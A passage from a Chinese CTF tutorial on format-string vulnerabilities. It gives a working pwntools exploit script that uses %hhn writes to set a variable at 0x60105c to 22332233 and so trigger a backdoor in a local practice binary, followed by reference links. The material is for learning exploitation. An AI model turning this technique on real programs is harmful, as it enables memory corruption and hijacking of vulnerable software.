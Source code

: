 对于上面的例题，想触发后门需要将backdoor_trigger的值改为22332233

```python
#!/usr/bin/python2
#coding: utf8
import struct

write_addr = 0x60105c

#要写成的值为0x154C349
payload = r"%73c"    #已0x49个字符
payload += r"%12$hhn"
payload += r"%122c"  #已输出73+122=0xc3个字符
payload += r"%13$hhn"
payload += r"%145c"  #已输出73 + 122 + 145 = 340个字符，因为只写入一个字节，所以为340 & 0xFF = 0x54
payload += r"%14$hhn"
payload += r"%173c"  #已输出73 + 122 + 145 + 173 = 513个字符，513 & 0xFF = 0x1
payload += r"%15$hhn"
payload += 'A'       #用于8字节对齐的填充

payload += struct.pack("<Q", write_addr)
payload += struct.pack("<Q", write_addr+1)
payload += struct.pack("<Q", write_addr+2)
payload += struct.pack("<Q", write_addr+3)

#由于数据只有22和33，所以也可以进行数据复用
from pwn import *
p = process("./format_test")
p.sendline(payload)
p.interactive()

```



### 参考阅读

关于.bss .data .rodata <https://blog.csdn.net/qq_26626709/article/details/51887085>

格式化字符串漏洞学习<https://veritas501.space/2017/04/28/格式化字符串漏洞学习/>

ctf-wiki <https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_intro/>